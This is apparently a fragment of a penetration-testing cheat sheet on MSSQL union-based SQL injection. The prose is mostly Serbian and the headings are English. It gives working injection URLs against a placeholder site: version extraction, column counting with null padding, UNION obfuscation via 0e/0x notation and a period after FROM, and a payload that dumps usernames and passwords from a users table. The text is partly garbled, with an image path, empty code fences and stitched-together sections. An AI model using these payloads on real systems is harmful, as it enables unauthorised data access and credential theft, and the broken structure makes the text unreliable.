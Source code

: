 ```

Scientific (0e) and hex (0x) notation for obfuscating UNION:

```

### MSSQL Injection

#### Union-Based SQL Injection

**Basic Union-Based SQL Injection**

Osnovna Union-Based SQL Injection tehnika se može primeniti na MSSQL baze podataka. Ova tehnika se koristi za izvlačenje podataka iz baze kroz SQL upit.

Da biste izvršili Union-Based SQL Injection, potrebno je da pronađete tačku unosa koja je podložna SQL Injection napadu. U ovom slučaju, tačka unosa je `id` parametar u URL-u.

Primeri URL-ova koji su podložni SQL Injection napadu:

* `https://vuln.app/getItem?id=0eunion+select+null,@@version,null--`
* `https://vuln.app/getItem?id=0xunion+select+null,@@version,null--`

U ovim primerima, `@@version` funkcija se koristi za dobijanje verzije MSSQL servera. Kroz SQL Injection napad, možemo izvršiti ovu funkciju i dobiti informacije o verziji servera.

**Izvršavanje SQL upita**

Da biste izvršili SQL upit putem Union-Based SQL Injection, potrebno je da pronađete broj kolona u ciljanoj tabeli. Možete to uraditi pomoću sledećeg upita:

```
https://vuln.app/getItem?id=0eunion+select+null,null,null--
```

Ako dobijete grešku, povećajte broj `null` vrednosti u upitu dok ne dobijete rezultate bez greške. Na primer:

```
https://vuln.app/getItem?id=0eunion+select+null,null,null,null--
```

Kada pronađete broj kolona, možete izvršiti SQL upit i izvući podatke iz baze. Na primer, ako ciljate tabelu `users` sa 3 kolone, možete koristiti sledeći upit:

```
https://vuln.app/getItem?id=0eunion+select+null,username,password+from+users--
```

Ovaj upit će izvući korisnička imena i lozinke iz tabele `users`.

```

A period instead of a whitespace between FROM and a column name:

```

https://vuln.app/getItem?id=1+union+select+null,@@version,null+from.users--

***
